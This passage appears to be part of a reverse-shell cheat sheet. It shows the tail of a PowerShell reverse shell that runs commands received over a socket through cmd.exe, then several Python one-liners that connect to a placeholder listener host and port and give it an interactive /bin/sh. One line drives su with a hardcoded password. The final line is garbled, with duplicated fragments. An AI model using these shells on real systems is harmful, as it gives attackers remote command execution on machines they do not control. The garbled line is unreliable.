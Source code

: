 ```c
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
			}
			else{
				$res = (&"$out" "$args") | out-string;
			}
		}
		else{
			$res = (&"$out") | out-string;
		}
		if($res -ne $null){
        $writer.WriteLine($res)
    }
	}
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()
```

## Python Reverse Shell

```c
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
$ python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
$ echo python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > <FILE><(),2);p=subprocess.call(["/bin/sh","-i"]);' > <FILE>
```
